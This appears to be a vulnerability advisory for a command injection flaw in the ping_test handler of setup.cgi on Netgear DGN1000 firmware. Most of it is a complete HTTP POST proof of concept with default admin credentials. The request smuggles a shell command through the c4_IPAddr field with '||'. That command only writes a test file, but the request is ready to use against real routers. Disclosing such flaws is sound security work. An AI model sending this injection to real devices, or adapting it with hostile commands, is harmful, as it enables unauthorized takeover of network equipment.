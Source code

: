 ### Overview

- Vendor : Netgear
- Product : DGN1000
- Version : DGN1000WW_V1.1.00.45.img
- Firmware download address : https://www.downloads.netgear.com/files/GDC/DGN1000/DGN1000WW_V1.1.00.45.zip

### Vulnerability details

A vulnerability was determined in Netgear DGN1000WW_V1.1.00.45. This impacts the function ping_test of the file setup.cgi. This manipulation of the argument c4_IPAddr causes command injection. The attack is possible to be carried out remotely. The exploit has been publicly disclosed and may be utilized.

![1756293462445](image/ping_test/1756293462445.png)
![1756293485571](image/ping_test/1756293485571.png)

### PoC

```
POST /setup.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 152
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/diag.htm&todo=cfg_init
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

IPAddr1=192&IPAddr2=168&IPAddr3=1&IPAddr4=1&ping=Ping&todo=ping_test&this_file=diag.htm&next_file=diagping.htm&c4_IPAddr=1||/usr/sbin/echo 0 >/www/1.txt
```



